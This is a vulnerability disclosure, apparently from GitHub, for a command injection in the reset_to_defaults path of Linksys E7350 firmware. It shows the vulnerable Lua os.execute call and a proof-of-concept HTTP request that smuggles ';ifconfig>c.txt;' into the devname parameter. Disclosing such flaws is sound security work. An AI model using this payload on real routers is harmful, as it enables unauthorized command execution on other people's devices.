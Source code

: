 # Command injection vulnerability in exec_reset_to_defaults_cmd function
### description
Vendor: linksys 

Version: linksysFW_E7350_V1.1.00.032_Prod_20220902_code.bin   

Detail: There is a command injection vulnerability in exec_reset_to_defaults_cmd function in mtkwifi.lua

```
local exec_reset_to_defaults_cmd = function (devname)
    if devname then
        os.execute("wifi reset "..devname)   ------------------------> here
    else
        os.execute("wifi reset")
    end
end

function reset_to_defaults(devname)
    mtkwifi.__run_in_child_env(exec_reset_to_defaults_cmd, devname)
    luci.http.redirect(luci.dispatcher.build_url("admin", "mtk", "wifi", "loading",mtkwifi.get_referer_url()))
end

```
the call chain is reset_to_defaults-->exec_reset_to_defaults_cmd 

We use Burpsuite to attack, the effect is as follows.
![图片](https://github.com/user-attachments/assets/579c6f74-82c5-468a-bd7a-6ac56ca35b8e)






### poc
```
GET /cgi-bin/luci/admin/mtk/wifi/reset_to_defaults/;ifconfig>c.txt; HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 0


```
Here we set the arguments "devname" as ;ifconfig>c.txt;", and there will be a file named "c.txt" in "/"




